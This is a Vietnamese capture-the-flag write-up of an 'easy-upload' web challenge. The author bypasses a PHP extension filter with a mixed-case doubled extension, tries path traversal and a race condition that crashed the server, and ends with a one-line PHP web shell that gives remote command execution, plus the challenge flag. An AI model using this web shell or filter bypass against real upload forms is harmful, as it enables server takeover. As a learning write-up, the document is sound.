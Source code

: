## easy-upload
![image](../img/3.1.png)
Chall này trong thời gian thi mình không solve được, khá tiếc vì đã nhìn ra kết quả đến nơi rồi mà không biết đường lụm

2 hint của tác giả trong chall này đều ra sau khi mình bypass `filename` rồi, nên khi đọc hint mình hơi cay =)), hint chả có tác dụng chóa gì , sorri tác giả nháá :v 

app cho phép ta upload file lên, các extension của php đều bị filter hết
![image](../img/3.2.png)

tuy nhiên với kinh nghiệm của mình, mình thử dùng cách như bài `x ec ec` thì bypass được luôn

![image](../img/3.3.png)


thành công upload file php lên server. Cái mình mắc ở đây là cách truy cập vào file mình up lên. Và cũng chính phần mô tả của chall cũng nhắc tới :< 

Mình cố gắng sử dụng một số path hay gặp như `/uploads/[filename]` ,`/files/[filename]` kết hợp với path traversal nhưng vô vọng

Về sau mình cũng có thử tạo file zip với tên file là `../../../../[filename].php` bằng tool `evilarc` hi vọng vào đc nhưng vô vọng tiếp, open ticket mình được admin confirm không có feature unzip nên không sử dụng zip được

quay trở lại burp, dạo quanh một vòng, mình thấy có file `script.js`
![image](../img/3.4.png)

nhìn vào file mình nảy ra ý tưởng sử dụng `race condition` để thử `làm loạn` server. Sorri ae vì có thể đây là lí do server sập vài lần... 

Mình sử dụng burp intruder để brute-force với payload NULL. Một dùng để upload file, và một dùng để truy cập tới file với việc tận dụng `path traversal ../../../[filename].php`

Và kết quả thì rõ rùi, không được gì chỉ tổ làm lag server :< (về sau mình có open ticket và được author bảo không sử dụng được path traversal truy cập vào file được đâu, mình mới đi tìm hướng khác)



sau đó mình quay lại với upload file, như mình đã nói mình nhìn thấy kết quả rồi mà không biết đường lấy. Vì lúc đó mình nghĩ thử truyền vào 1 file có tên dài qoãi chưởng xem nó có gì không?

![image](../img/3.5.png)

trùng hợp thay, mình nhớ không nhầm thì sau một lúc hình như cũng có bạn hỏi author về cái này, và hình như bạn đó nói server full disk =))), mình trước đó cũng làm tới đây rồi, và có truy cập vào thử `/app/uploads/<chuỗi>/[filename].php` và cả `/uploads/<chuỗi>/[filename].php`
nhưng server vẫn báo về status 404
![image](../img/3.6.png)

Tiếp tục ngồi mò mẫm sau giải thì mình biết được server sử dụng `PHP/8.2.12`

![image](../img/3.7.png)

nó không chấp nhận việc filename có chứa %00 hay %0a hay vân vân mây mây

đến đây thì phải tìm cách bypass filename khác, không lâu sau đó mình bypass được với extension này `.pphpHp`

![image](../img/3.8.png)

giờ thì vào file đó thui
![image](../img/3.9.png)

vậy là có thể RCE được rồi.payload RCE
```
<?php
echo system($_GET['cmd']);
?>

```
![image](../img/3.10.png)

FLAG: `KCSC{l000000000000n9_4ss_f1l3_n4m3_f0r_th3_3xpl01t}`